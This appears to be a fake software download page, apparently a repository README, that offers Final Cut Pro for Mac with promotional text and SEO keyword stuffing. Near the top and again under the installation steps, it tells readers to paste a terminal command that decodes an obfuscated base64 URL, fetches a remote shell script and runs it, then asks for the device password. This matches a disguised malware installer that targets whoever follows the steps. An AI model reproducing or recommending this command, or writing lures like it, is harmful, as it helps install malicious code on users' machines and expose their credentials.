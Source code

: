 # Final Cut Pro for Mac Download - Professional Video Editing Software

![Final Cut Pro Screenshot 1](https://cdn.cultofmac.com/wp-content/uploads/2024/05/Apple-Final-Cut-Pro-for-Mac-10-8-Enhance-Light-and-Color-240507.jpg)

---

### 🔽 Download Final Cut Pro for Mac

> 📥 Open the terminal on your device and paste the command below. Instructions below 👇
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
---

## What is Final Cut Pro for Mac?

Final Cut Pro is a professional-grade video editing software designed exclusively for macOS. It offers powerful tools for editing, color grading, and audio mixing, making it the perfect choice for filmmakers, YouTubers, and content creators. With its intuitive interface and advanced features, Final Cut Pro simplifies complex editing tasks while delivering studio-quality results.

Unlike other video editors, Final Cut Pro features a magnetic timeline that makes editing faster and more flexible. It supports modern formats like 4K and HDR, and is optimized for Apple Silicon (M1/M2 chips) for blazing-fast performance. Whether you're working on short films, documentaries, or commercial projects, Final Cut Pro provides everything you need to bring your vision to life.

With built-in effects, transitions, and titles, plus seamless integration with Motion and Compressor, Final Cut Pro offers a complete post-production solution right at your fingertips.

![Final Cut Pro Screenshot 2](https://help.apple.com/assets/673BE5C0E115654F7F097772/673BE5C41BAE7922D30F2CE1/en_US/9e45a1d009f0438b1a8774dbf5fbaa12.png)

---

## Key Features & Benefits

- 🎬 Professional-grade video editing tools  
- ⚡ Optimized for Apple Silicon (M1/M2)  
- 🖥️ Supports 4K, HDR, and ProRes formats  
- 🧲 Magnetic timeline for intuitive editing  
- 🎨 Advanced color grading and audio mixing  
- 💻 Perfect for professionals and enthusiasts  

Whether you're editing vlogs, feature films, or corporate videos, Final Cut Pro delivers unmatched performance and creative freedom.

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔍 Keywords

Final Cut Pro for Mac, Final Cut Pro Mac Download, Final Cut Pro for Mac Download, Final Cut Pro Mac, Final Cut Pro Download Mac, Final Cut Pro Download for Mac, final cut pro free download, final cut pro full version, Mac Download Final Cut Pro, Download Mac Final Cut Pro, Download Final Cut Pro Mac, Download Final Cut Pro for Mac
